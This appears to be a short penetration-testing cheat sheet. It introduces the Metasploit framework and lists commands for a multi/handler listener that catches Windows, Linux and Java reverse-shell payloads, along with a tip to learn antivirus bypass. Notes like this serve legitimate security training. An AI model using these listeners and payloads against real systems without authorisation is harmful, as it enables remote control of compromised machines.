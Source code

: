 # Metasploit

The Metasploit framework is an open source exploitation framework, originally written in Perl and later rewritten in Ruby. It was acquired by Rapid7, in 2009, and is actively maintained and supported.

It was designed to streamline and enhance the penetration testing process. It does this by offering compartmentalized functionality in the form of modules based on various phases of the penetration testing methodology.

Metasploit can be used in almost every stage of the penetration testing life cycle, from information gathering to exploitation and privilege escalation. This robust functionality is what makes Metasploit an essential framework to learn for any penetration tester.

** Metasploit is extendable, always being updated, and relevant. In real engagements most AV solutions will easily spot meterpreter payloads. Also learn about bypassing AV.**

## Multi-handler

Start Metasploit:

    msfconsole

Set multi handler module:

    use exploit/multi/handler

Set up a shell:

    set payload windows/x64/shell/reverse_tcp
    set payload windows/shell/reverse_tcp
    set payload windows/meterpreter/reverse_tcp
    set payload linux/x64/shell/reverse_tcp
    set payload linux/x86/shell/reverse_tcp
    set payload java/jsp_shell_reverse_tcp

Set options:

    set LHOST <IP address attack machine>

Start:

    run

## Resources

* [Metasploit -- multi/handler](https://www.infosecmatter.com/metasploit-module-library/?mm=exploit/multi/handler)
